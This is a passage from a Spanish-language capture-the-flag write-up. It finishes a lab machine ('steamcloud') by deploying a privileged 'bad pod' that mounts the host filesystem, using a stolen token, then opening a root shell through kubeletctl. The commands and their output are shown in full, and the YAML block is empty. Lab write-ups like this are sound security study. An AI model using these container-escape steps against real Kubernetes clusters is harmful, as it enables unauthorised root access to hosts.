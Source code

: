 ```yml

```

Este BAD POD montará en /mnt todo el sistema de ficheros de la máquina host. Ahora tendremos que ejecutar el POD

```bash
❯ kubectl apply -f bly.yaml --server https://10.10.11.133:8443 --certificate-authority=ca.crt --token=$(cat token)
pod/pod-bly created
```

kubectl apply permite desplegar un POD. Si listamos los PODS podemos ver el nuestro.

```bash
❯ kubeletctl runningpods -s 10.10.11.133 | jq -c '.items[].metadata'
{"name":"pod-bly","namespace":"default","uid":"9ba59450-48e7-46a4-b159-521d93bd2cec","creationTimestamp":null}
```

Ahora solo tendremos que ejecutar comandos como hemos hecho anteriormente para ganar 
acceso root al sistema.

```bash
❯ kubeletctl exec "bash" -s 10.10.11.133 -p pod-bly -c pod-bly
root@steamcloud:/#
```

Si nos vamos a /mnt veremos montado todo el sistema y tendremos acceso a este. Aqui acaba esta máquina. Espero que te haya servido.
